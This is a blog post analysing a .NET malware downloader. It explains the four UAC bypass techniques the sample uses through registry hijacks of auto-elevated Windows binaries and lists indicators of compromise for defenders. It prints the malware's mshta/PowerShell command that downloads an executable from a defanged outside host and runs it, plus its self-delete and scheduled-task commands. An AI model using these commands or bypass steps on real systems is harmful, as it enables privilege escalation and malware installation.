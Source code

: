 ```yaml
---
layout: post
title: "UAC Bypass Techniques"
date: 2022-06-29 01:20:00 -0000
categories: UACbypass
---
```

![Entry Point]({{site.url}}/{{site.baseurl}}/images/lock.jpg)

## Introduction

In this post, I highlight old UAC bypass techniques that are still in use. Although the bypass techniques implements in the analyzed sample are older and known, attempts are still being made to exploit them. As a result, defenders should be made aware of these on-going threats. 

I ran across this simple .NET downloader I'm naming *Adan Downloader* based on it's project path. The malware implements UAC bypass techniques in order to execute a Powershell download command proxied through mshta.exe.

The UAC bypass techniques implemented are:
* UAC Bypass via Event Viewer
* UAC Bypass via Slui
* UAC Bypass via SilentCleanup Scheduled Task
* UAC Bypass via Fodhelper

### Sample Metadata
<table>
    <thead>
        <tr>
            <th colspan=2>Adan Downloader</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Filename</td>
            <td>Stub.exe</td>
        </tr>
        <tr>
            <td>File Type</td>
            <td>.NET Binary</td>
        </tr>
        <tr>
            <td>MD5</td>
            <td>47E16AF98E41C83EB2F07A2D29CA8AF9</td>
        </tr>
        <tr>
            <td>SHA1</td>
            <td>4F5161BA956ECB4A453893EB3FC34C1313C6C701</td>
        </tr>
        <tr>
            <td>SHA256</td>
            <td>72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</td>
        </tr>
        <tr>
            <td>PDB</td>
            <td>C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb</td>
        </tr>
        <tr>
            <td>VT</td>
            <td> 
                <a href="https://www.virustotal.com/gui/file/72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534">72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</a>
            </td>
        </tr>
    </tbody>
</table>

### Analysis:

This downloader attempts to bypass User Account Control (UAC) to download unwanted files to a system. Upon execution, it conducts the following activity:
 
Creates a payload objects that contains the URLS and command line arguments for the downloaded file:
```
hxxp://source1.kapetownlink[.]com/installer.exe - Args: /qn CAMPAIGN="1640"
hxxps://setup.maskvpn[.]cc/g.asp?id=151 - Args: /silent /subid=603
```

![Entry Point]({{site.url}}/{{site.baseurl}}/images/main.png)
*Main Function*

For each payload URL, it constructs the following command to download additional files to `%ProgramData%\<random_string>.exe`.

<b>mshta command</b>
```powershell
@"mshta vbscript:(CreateObject(""Wscript.Shell"")).Run(
""cmd /c powershell -Command """"(New-Object System.Net.WebClient).
DownloadFile('hxxp://source1.kapetownlink[.]com/installer.exe', 
(Join-Path -Path $env:ProgramData -ChildPath '5OTP8CZoq3MomB2GxUYrHB8U.exe'))"""" 
& C:\ProgramData\5OTP8CZoq3MomB2GxUYrHB8U.exe /qn CAMPAIGN=""""1640"""""",0)
(window.close)"
```

The command proxies Powershell execution through the mshta utility. This utility normally executes Microsoft HTML Applications (HTA) files. The utility is known as a living off the land binary (LOLBIN) since it's native to the Windows OS. It's a signed tool that can be used to bypass a system's security measures.

After constructing the command, the downloader executes a function named *UACBypass.AutoBypass()*. The function starts by obtaining the Windows product name. Depending on the name, the downloader utilizes old techniques to bypass UAC security measures.

![UACAuto.Bypass]({{site.url}}/{{site.baseurl}}/images/uac_autobypass.png)

*AutoBypass Function*

### UAC Bypass Techniques

#### Windows 7: UAC Bypass via Event Viewer
    
If the product name starts with "Windows 7", the downloader abuses eventvwr.exe by hijacking the `HKCR\mscfile\shell\open\command` registry key to bypass UAC.

The downloader creates the registry key `HKCU\Software\Classes\mscfile\shell\open\command` and then sets the command value to the mshta command. Eventvwr is then started.

The technique works in part because of the relationship between the HKEY_CLASSES_ROOT (HKCR) and HKEY_CURRENT_USER (HKCU) registry keys. When `HKCU\Software\Classes\mscfile\shell\open\command` is created, a entry is also created in `HKCR\mscfile\shell\open\command`. The newly-created entry overwrites the mmc.exe entry that is normally there.
 
When eventvwr.exe is started, it reads `HKCR\mscfile\shell\open\command` to launce mmc.exe, however, since the HKCR key has been hijacked via the HKCU key, the mshta command is executed.

![UACAuto.Bypass]({{site.url}}/{{site.baseurl}}/images/eventvwr.png)


#### Windows 8: UAC Bypass via SLUI

If the product name starts with "Windows 8", UAC bypass is attempted by hijacking the `HKCR\Software\Classes\exefile\shell\open\command` registry key. 

The key `HKCU\Software\Classes\exefile\shell\open\command\` is created and the command is set to the mshta command. As explained previously, a entry is also created in the corresponding HKCR `\Software\Classes\exefile\shell\open\command` key. An additional value DelegateExecute is also created but the value is empty.

Slui.exe, an auto-elevated binary, is then executed with elevated privileges and executes the mshta command. 

![]({{site.url}}/{{site.baseurl}}/images/slui_func.png)


#### Other OS: UAC Bypass via SilentCleanup Scheduled Task

When the OS is determined to be other than Windows 7/8, the downloader reads the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin`.

This key contains a UAC Group Policy setting that indicates whether a user is prompted for consent to continue with an operation. 

The malware checks for a value of 2. The explanation for this value is [here](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4).

If the key is set to 2, the downloader creates the key `HKCU\Environment\windir` and sets it value to the download command with "CleanReg &&" appended to the end. The malware then proceeds to start the *SilentCleanup* scheduled task.

*SilentCleanup* is native to Windows and is used to launch a silent auto disk cleanup when the system is running low on disk space.

The user's environment variables are stored in the `HKCU\Environment\` registry key. The malware adds the mshta command as the environment variable **windir**. As a result, when the *SilentCleanup* task is executed, the mshta command is executed.

![]({{site.url}}/{{site.baseurl}}/images/silentcleanup.png)


#### UAC Bypass via Fodhelper

The final UAC bypass technique implemented by the downloader involves *fodhelper*. *Fodhelper.exe* is used by Windows to manage optional features. During execution, it looks for the registry keys:
    `HKCU\Software\Classes\ms-settings` however, it doesn't normally exist by default.

The downloader creates the key `HKCU\Software\Classes\ms-settings\shell\open\command` and sets the value to the mshta command. As with the previous command, DelegateExecute is created but the value is empty.

*Fodhelper.exe* is then executed.

![]({{site.url}}/{{site.baseurl}}/images/fodhelper.png)

#### Cleanup Activity

The downloader cleans up after itself by deleting the UAC Bypass registry key it created. Then it deletes itself with the command:
    `cmd.exe /C choice /C Y /N /D Y /T 1 & Del <filename>`.

### IOCs

<b>Adan Downloader Hashes</b>
```
72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
```

<b>Project Path</b>

```
C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb
```

<b>UAC Bypass Registry Keys</b>
```
Fodhelper, HKCR|HKCU\Software\Classes\ms-settings\shell\open\command
SLUI, HKCU\Software\Classes\exefile\shell\open\command
Eventvwr, HKCU\Software\Classes\mscfile\shell\open\command
```

<b>SilentCleanup UAC Bypass Scheduled Task</b>
```
schtasks.exe /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

<b>Download URLs</b>

```
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
    hxxps://source1.boys4dayz[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
    hxxps://footerquotes.b-cdn[.]net/fq.exe

72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
    hxxp://source1.kapetownlink[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
```

#### References:

* https://attack.mitre.org/techniques/T1218/005/
* https://attack.mitre.org/techniques/T1548/002/
* https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4
* https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
* https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_sluihijack/
* https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_silentcleanup/
* https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/